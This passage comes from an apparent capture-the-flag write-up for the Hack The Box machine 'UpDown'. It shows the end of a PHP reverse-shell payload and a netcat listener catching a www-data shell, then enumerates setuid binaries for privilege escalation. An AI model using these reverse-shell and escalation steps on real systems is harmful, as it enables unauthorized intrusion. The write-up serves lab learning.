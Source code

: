 	// all done! Clean up
	fclose($pipes[1]);
	fclose($pipes[2]);
	proc_close($p);
	?>
	http://example.com
	http://example.com
	http://example.com
	more URLs
	```
8. `www-data` shell obtained
	```
	┌──(root💀kali)-[~/htb/UpDown/10.10.11.177/exploit]
	└─# nc -nvlp 4444
	Ncat: Version 7.92 ( https://nmap.org/ncat )
	Ncat: Listening on :::4444
	Ncat: Listening on 0.0.0.0:4444
	Ncat: Connection from 10.10.11.177.
	Ncat: Connection from 10.10.11.177:58708.
	/bin/sh: 0: can't access tty; job control turned off
	$ id;whoami
	uid=33(www-data) gid=33(www-data) groups=33(www-data)
	www-data
	$
	```
9. Demo - File Upload Bypass -> Invoke Reverse Shell
	![](4Z2LDNwDu5.gif)



# Privilege Escalation

## Developer - Enumeration
1. Enumerate the system for files w/ setuid bit
	```
	www-data@updown:/tmp$ find / -perm /4000 -type f -exec ls -lda {} \; 2>/dev/null
	-rwsr-xr-- 1 root messagebus 51344 Apr 29 12:03 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
	-rwsr-xr-x 1 root root 14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
	-rwsr-xr-x 1 root root 22840 Feb 21  2022 /usr/lib/policykit-1/polkit-agent-helper-1
	-rwsr-xr-x 1 root root 473576 Mar 30  2022 /usr/lib/openssh/ssh-keysign
	-rwsr-xr-x 1 root root 53040 Mar 14  2022 /usr/bin/chsh
	-rwsr-xr-x 1 root root 67816 Feb  7  2022 /usr/bin/su
	-rwsr-xr-x 1 root root 39144 Feb  7  2022 /usr/bin/umount
	-rwsr-xr-x 1 root root 166056 Jan 19  2021 /usr/bin/sudo
	-rwsr-xr-x 1 root root 88464 Mar 14  2022 /usr/bin/gpasswd
	-rwsr-xr-x 1 root root 39144 Mar  7  2020 /usr/bin/fusermount
	-rwsr-sr-x 1 daemon daemon 55560 Nov 12  2018 /usr/bin/at
	-rwsr-xr-x 1 root root 68208 Mar 14  2022 /usr/bin/passwd
	-rwsr-xr-x 1 root root 44784 Mar 14  2022 /usr/bin/newgrp
	-rwsr-xr-x 1 root root 85064 Mar 14  2022 /usr/bin/chfn
	-rwsr-xr-x 1 root root 55528 Feb  7  2022 /usr/bin/mount
	-rwsr-x--- 1 developer www-data 16928 Jun 22 15:45 /home/developer/dev/siteisup
	```
	> `/home/developer/dev/siteisup` - user `developer` setuid bit
	{: .prompt-info }
2. View contents of `/home/developer/dev/siteisup` w/ `strings`
	```
	...SNIP...
	Welcome to 'siteisup.htb' application
	/usr/bin/python /home/developer/dev/siteisup_test.py
	...SNIP...
	```